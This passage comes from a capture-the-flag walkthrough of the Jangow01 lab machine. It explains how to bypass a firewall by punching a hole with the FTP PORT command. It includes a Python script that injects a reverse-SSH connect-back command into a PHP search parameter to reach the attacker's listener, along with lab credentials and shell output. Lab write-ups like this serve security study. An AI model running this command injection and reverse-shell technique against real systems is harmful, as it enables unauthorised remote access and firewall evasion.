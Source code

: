 ```plain
< drwxr-xr-x    3 0        0            4096 Oct 31 19:36 html
```

It means that the firewall adds a temporarily egress rule when it sees the *PORT* command but if we don't send the *LIST* command then the FTP server won't use that channel, leaving enough time for another program to use it and that program will be our backdoor :)  

First let's launch the fabulous [ReverseSSH](https://github.com/Fahrj/reverse-ssh) in listening mode :  

```bash
$ ./reverse-sshx64 -v -l -p 2222
```

Then let's use this home made script to punch the hole and launch the connect back on the server :  

```python
from ftplib import FTP
from urllib.request import urlopen
from urllib.parse import quote

LHOST = "192.168.56.1"
LPORT = 2222

RHOST = "192.168.56.118"

REVERSE_SHELL = f"/home/jangow01/reverse-sshx64 -v -p {LPORT} {LHOST} &"

ftp = FTP(RHOST, "jangow01", "abygurl69")
ftp.set_pasv(False)
ftp.sendport(LHOST, LPORT)  # punch that hole
# Get us a shell
urlopen(f"http://{RHOST}/site/busque.php?buscar={quote(REVERSE_SHELL)}")
ftp.close()
```

Once the ReverseSSH tunnel is established, just connect to it and voilà :  

```bash
$ ssh -p 8888 127.0.0.1
```

Thanks to the TTY we can *su* to the user *jangow01* using the password *abygurl69* :  

```plain
www-data@jangow01:/var/www/html/site$ su jangow01
Password: 
jangow01@jangow01:/var/www/html/site$ id
uid=1000(jangow01) gid=1000(desafio02) grupos=1000(desafio02)
```

Hole punching with FTP (ingress)
--------------------------------

This was even easier. Here we are using passive mode. We don't have control on which port will be chosen by the server though. We just need to catch the port number, launch the backdoor on the target in background (I'm using *screen* in detached mode here) then connect to this port to get out shell :-)  
